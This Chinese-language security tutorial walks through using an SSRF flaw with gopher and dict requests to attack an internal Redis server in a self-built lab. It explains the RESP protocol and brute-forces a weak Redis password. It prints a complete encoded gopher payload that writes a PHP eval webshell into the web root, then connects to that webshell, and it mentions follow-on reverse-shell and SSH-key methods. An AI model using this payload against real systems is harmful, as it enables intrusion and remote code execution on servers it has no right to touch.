SSRF–(Server-side Request Forge, 服务端请求伪造)
定义：由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务
SSRF漏洞思维导图如下，本篇主要介绍利用SSRF漏洞攻击内网Redis

SSRF攻击内网Redis
当存在SSRF漏洞且内网中Redis服务可以未授权访问时，利用Redis 任意文件写入成为十分常见的利用方式，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议可以攻击内网中的 Redis。
在之前的文章《浅谈SSRF漏洞之基础篇》，我们了解了file, dict, gopher协议的常规利用。
1 | # 利用file协议查看文件 |
想要利用 Gopher 协议构造报文我们就必须弄清楚Redis是怎么进行数据传输的–即【RESP协议】。
Redis传输协议–[RESP协议]
Redis未授权访问。
使用docker搭建现成的Redis未授权漏洞环境进行试验，过程如下：
- 获取Redis定制镜像
1 | # 搜索镜像 |
-
运行Redis容器
ps:想要了解ju5ton1y/redis镜像dockerfile如何编写的同学可以看文末彩蛋~
1 | # 运行Redis |
-p 6788:6379 # 端口映射，格式【主机(宿主)端口:容器端口】
-d ju5ton1y/redis # 后台运行容器，返回容器ID
–name redis_test # 命名容器

- 进入容器，安装tcpdump抓包工具
1 | # 新终端进入Redis容器 |


1 | # 重新进入容器安装tcpdump |

- 本地客户端进行连接未授权访问，后使用Wireshark打开nopass.pcap

查看TCP流数据，可以看到Redis的数据传输格式，结合官网学习RESP协议，介绍如下：
Redis服务器与客户端通过RESP（REdis Serialization Protocol）协议通信RESP协议是在Redis 1.2中引入的，但它成为了与Redis 2.0中的Redis服务器通信的标准方式
RESP实际上是一个支持以下数据类型的序列化协议：
- 简单字符串
- 错误
- 整数
- 批量字符串
- 数组
RESP在Redis中用作请求 - 响应协议的方式如下：
- 客户端将命令作为
Bulk Strings的RESP数组发送到Redis服务器- 服务器根据命令实现回复一种RESP类型
在RESP中，某些数据的类型取决于第一个字节：
- 对于客户端请求
Simple Strings，回复的第一个字节是+- 对于客户端请求
error，回复的第一个字节是-- 对于客户端请求
Integer，回复的第一个字节是:- 对于客户端请求
Bulk Strings，回复的第一个字节是$- 对于客户端请求
array，回复的第一个字节是*此外，
RESP能够使用稍后指定的Bulk Strings或Array的特殊变体来表示Null值。在RESP中，协议的不同部分始终以
"\r\n"(CRLF)结束。
可以看到客户端将命令发送到Redis服务器的流程为
- 客户端向Redis服务器发送一个仅由Bulk Strings组成的RESP Arrays
- Redis服务器发送任何有效RESP数据类型作为回复返回给客户端
Bulk Strings用于表示长度最大为512 MB的单个二进制安全字符串，按以下方式编码：
$字节数：一个$后跟组成字符串的字节数，由CRLF终止。- 字符串数据
- CRLF
字符串f4ke的编码如下：$4\r\nf4ke\r\n，如下图格式

RESP Arrays使用以下格式发送:
*元素数：*字符作为第一个字节，后跟数组中的元素数，后跟CRLF- 数组中的每个元素都附加RESP类型
现在通过下图理解数据包：
- 每一个
*number代表每一行命令，number代表每行命令中数组中的元素个数- 图中的
*3，代表config get dbfilename这行命令的3个元素
- 图中的
$number代表每个元素的长度$6，代表config长度

Redis认证访问，
修改redis.conf配置，有密码的情况下进行抓包。
1 | # 进入容器中修改配置文件 |
wireshark追踪TCP流：

/tmp下成功被写入shell.php

可以看到在每次请求命令执行之前都使用下面格式进行验证：
1 | *2 |
官方文档中提到：客户端可以通过一个写操作发送多个命令，而不需要在发出下一个命令之前读取上一个命令的服务器应答。
因此，在具有认证(弱口令)的情况下，我们依然可以进行与未授权相同的攻击方式，只需要在攻击脚本中加上验证数据即可。
SSRF攻击复现
Redis未授权访问
测试环境：
受害机：腾讯云主机 php7.2 (安装curl扩展)+ apache2 + redis6.0.6
攻击机：windows10
开局给出一段ssrf漏洞代码，利用它找到flag~
1 | # ssrf.php |

使用dict协议来进行探测内网的主机存活与端口开放情况，使用burpsuite工具设置爆破1000-9000端口，爆破结果如下，6788端口存在redis服务。

且本地无法访问云主机的6788redis端口，其Redis服务只面向云主机所在的内网。

初步思路：构造Redis命令写入webshell，尝试使用中国蚁剑连接查找flag。
1 | flushall |
根据RESP协议使用七友师傅编写的python脚本redisSsrf.py，将上述命令转换为gopher payload。
1 | import urllib.parse |
执行redisSsrf.py脚本，生成payload，

放入url参数浏览器请求如下，成功执行Redis命令写入webshell。
1 | http://xx.xx.xx.xx:8000/ssrf.php?url=gopher%3A//127.0.0.1%3A6788/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252433%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522f4ke%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250A5he1l.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%252A1%250D%250A%25244%250D%250Aquit%250D%250A |

使用中国蚁剑建立连接，文件即为我们刚刚写入的5he1l.php，密码为f4ke

保存数据右键文件管理，即可找到flag文件。


Redis弱口令认证
测试环境：
受害机：腾讯云主机 php7.2 (安装curl扩展)+ apache2 + redis6.0.6
攻击机：windows10
浏览器访问返回如下：未对请求进行密码认证。

我们进一步利用dict协议，使用下面的格式尝试认证密码。
1 | dict://serverip:port/命令:参数 |
使用auth:123456，返回结果：

使用auth:123123，返回结果：

通过两次响应结果，可以确定Redis的密码为123123，
因此在面对内网redis认证的情况下，可以利用dict或者gopher等协议编写脚本尝试爆破Redis口令，简单实现爆破脚本如下：
1 | import urllib.request |
将爆破得到的密码，加入到redisSsrf.py脚本中，接下来的攻击与未授权访问的攻击流程一样获得服务器的权限。
SSRF利用工具
Gopherus - https://github.com/tarunkant/Gopherus
Gopherus可以帮助我们直接生成Gopher payload，以利用SSRF（服务器端请求伪造）并获得RCE（远程代码执行），
例如，本篇文章中的七友师傅的脚本即可用此工具代替直接生成payload。

常用的还有以下两个工具
- SSRFmap - https://github.com/swisskyrepo/SSRFmap
- shellver - https://github.com/0xR0/shellver
总结
SSRF攻击内网Redis的利用方式除了写入webshell之外，还可以利用
- 计划任务执行命令反弹shell
- 写ssh-keygen公钥然后使用私钥登陆
这两种方法在《Redis未授权漏洞总结》一文中都有详细利用，只要将payload结合本文redisSsrf.py的脚本，就可以实现攻击。
通过Redis攻击环境的搭建，熟悉了docker命令及dockerfile的编写，还有ubuntu apache2配置及自带的防火墙ufw使用。
彩蛋
Dockerfile文件如何实现Redis未授权环境的定制：
1 | #Redis 未授权访问 |
其中启动配置上下文目录如下：
